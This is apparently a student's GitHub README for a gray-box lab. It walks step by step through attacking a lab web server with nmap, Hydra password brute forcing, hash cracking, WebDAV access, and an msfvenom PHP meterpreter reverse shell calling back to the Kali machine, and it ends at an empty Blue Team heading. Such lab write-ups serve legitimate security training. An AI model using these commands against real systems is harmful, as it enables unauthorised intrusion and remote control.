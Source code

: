 # RED-vs-BLUE
Project demostrating my knowledge in defensive security, and pentration testing in a gray box environment.
## Network Topology
![Topology](Images/red-blue-env.png)

| Name | Function | IP Address |
| -------- | --------| --------- |
| Kali VM  | Attacking Machine | 192.168.1.90 |
| Capstone VM | Target Machine | 192.168.1.105 |
| ELK Server | Monitoring Machine | 192.168.1.100 |

## Discover the IP address for the Linux server

-Open up a terminal and run an nmap of the network
`nmap 192.168.1.0/24`
![Nmap scan]{Images/nmap_find_webserver.png}

- Looking at the image above we can see that port 80 is open on 192.168.1.105. Which is the machine that we are looking for.

- We now need to open up a browser and navigate to the web page.
` http://192.168.1.105 `

## Locate the hidden directory on the server

- Navigating through different directories, you will see a reoccurring message.
*Please refer to company_folder/secret_folder for more information*
*ERROR: company_folders/secret_folder/ is no longer accessible to the public*

- Navigate to that directory by updating the path in the url.
` http://192.168.1.105/company_folders_secret_folder `

- The directory asks for authentication in order to access it. Reading the authentication method, it says *For ashton's eyes only*

- This gives us a good idea on what account to target

## Brute force the password for the hidden directory

- Because the folder is password protected, we need to either guess the password or brute force into the directory. In, this case, it would be much more efficient to use a brute force attack, specifically Hydra.

- Command used `hydra -l ashton -P ./wordlist/rockyou.txt -s 80 -f 192.168.1.105 http-get /company_folders/secret_folder`
![Hydra](Images/hydra_psswd_hash.png)

- We can see that Ashton's password is *leopoldo*
- Going back to the *company_folders/secret_folder* enter the information that we found.

- Once inside the directory navigate the the *connect_to_corp_server* We find instructions on how to connect to the server via **WebDAV**
- We can also see ryan's password hash.
![webdav instructions](Imaages/web-dav-dir.png)

## Connect to the server via WebDAV

- Using ryan's password hash we can either put the hash into a file with the proper format and use `john`, or we can use *https://crackstation.net* to crack the passwod. In this case we will be using *crackstation*.

-Naviage to *https://crackstation.net* and enter the hash into the text box.

![Crackstation](Images/crackstation_psswd_hash.png)

- The password is revealed as: `linux4u`

## Connect to the server via WebDAV

- In order to connect to the webserver via WebDAV we need to do as follows.
  1. Open the **File System** from the desktop
  2. Click **Browse Network**
  3. In the URL bar, type: `dav://192.168.1.105/webdav` and enter ryans credentials to log in.
![Webdav-login](Images/webdav_login.png)

## Upload a PHP reverse shell payload

- We start by creating the payload using **msfvenom**.

- `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 > shell.php`

![msf-payload](Images/msf-payload.png)

- On the Kali machine we need to set up a listener.
  - Start msfconsole: run `msfconsole`
  - Load module: run `use exploit/multi/handler`
  - Set payload: run `set payload php/meterpreter/reverse_tcp`
  - Set Local Host: run `set LHOST 192.168.1.90`
  - Set Local Port: run `set LPORT 4444`
  - View settings for module: run `show options`
  - Start the listener: run `exploit`

![listener](Images/reverse_shell_complete.png)


- Now drag and drop the **shell.php** from the Kali desktop to the webserver.
![msf-payload](Images/msfvenom_payload.png)

- Connect to the webdav folder by navigating to **192.168.1.105/webdav** and use ryan's credentials. **ryan:linux4u**

- Click the `shell.php` - If the browser is hanging or loading that means its working.

## Using Meterpreter to find flag

- Open the listener and change to the root directory. `cd /`
- Search the system for files that conatin *flag* `find . -iname flag
- Cat out the file found `cat flag.txt`
![flag found](Images/flag_found.png)

## Analysis

### Finding the target

- In this gray box environment we were able to find which server was the Web Server by noticing which host had port 80. The service running on this port is http which is an unsecure protocol as it doesn't encrypt it's traffic.

### Locate vulnerable directories and files

- After navigating to the vulnerable target we traveresed through the directories to find hints on which directories conatined sensitive data. We notice that the directory */secret_folder/* is no longer available to the public. 

- Navigating to this directory requires authentication, and a note that states "for ashton's eyes only". This gives us information on what the username might be to access this directory.

### Brute force the hidden directory

- We used the hydra command to brute force the password for ashton's account. Here is a breakdown of the hydra command used.
   - `hydra` - command
   - `-l ashton` - login name
   - `-P /usr/share/wordlists/rockyou.txt` - Point the password to load several passwords from a file.
   - `-s 80` - run command on port 80
   - `-f` - stop command after the first found username/password pair.
   - `-vV` - Verbose mode which shows attempted username and password combinations
   - `192.168.1.105` - targeted address
   - `http-get /company_folders/secret_folder` - send a http-get request to the targeted directory

- Running this command was able to enumerate the password for ashton's account.
- Using the credentials found we were able to find another file on how to connect to the Web Server via WebDav.

### Connecting to Server via WebDav

- WebDav is an extension of the hypertext protocol that allows clients to perform remote Web content authoring operation. Knowing this gives us the ability to add changes to the Web server.

- With the given hash and username associated with the hash we are easily able to crack the hash with `john` or by using crackstation.net.

### Upload reverse shell to server

- With access to WebDav we are able to add files remotely to the Web Server. We do this by creating a payload with `msfvenom` on our Kali machine and uploading them to the shared directory.

- Msfvenom breakdown:
   - `msfvenom` - command
   - `-p php/meterpreter/reverse_tcp` - select payload
   - `lhost=192.168.1.90` - set local host to kali machine
   - `lport=4444` - set local port to 4444
   - `>> shell.php` - output to shell.php

- We now setup a listener with `msfconsole` so when the file is clicked on threw the website, the attacker is able to open a shell on the victim who clicked the shell.php file.

# Blue Team